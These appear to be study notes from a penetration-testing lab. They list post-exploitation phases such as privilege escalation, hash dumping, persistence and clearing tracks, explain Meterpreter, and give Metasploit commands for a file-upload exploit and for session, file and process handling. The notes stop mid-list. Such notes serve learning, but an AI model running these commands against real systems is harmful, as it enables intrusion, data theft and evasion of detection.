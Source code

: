 * Post-exploitation includes:
  1. Local Enumeration
  2. Privilege escalation
  3. Dumping hashes
  4. Establishing persistence --> If the system is changed or shut down, we have the ability to go through the whole exploitation process again.
  5. Clearing our tracks
  6. Pivoting
 
## What is Meterpreter
* Meterpreter or Meta-Interpreter payload is an advanced multi-functional payload that operates via DLL injection
* It is executed in memory on the target system making it harder to detect.
* It communicates over a stager socket.

* PRACTICAL
* Repeat steps until db_nmap
* `use exploit/unix/webapp/xoda_file_upload`
* `set targteuri /` --> To the root
* `run`
* ***
* `help` --> To list all the commands that can be used inb a meterpreter session.
* `background` --> Put the current meterpreter session to background
* `exit` -> Exit the current session.
* `sessions -h`
* `sessions -C [command to be executed like sysinfo] -i [id]`
* ***
* `download [fileName]` --> `download flag.zip`
* Exit the meterpreter session
* `unzip flag.zip`
* `cat [extracted file]`
* `checksum md5 /bin/bash` --> Lookout how this command works???
* ***
* `getenv PATH`
* **Search for files**
* `search -d /usr/bin -f *backdoor *`
* `search -f *.exe`
* ***
* **Process command**
  * `ps`
  * `
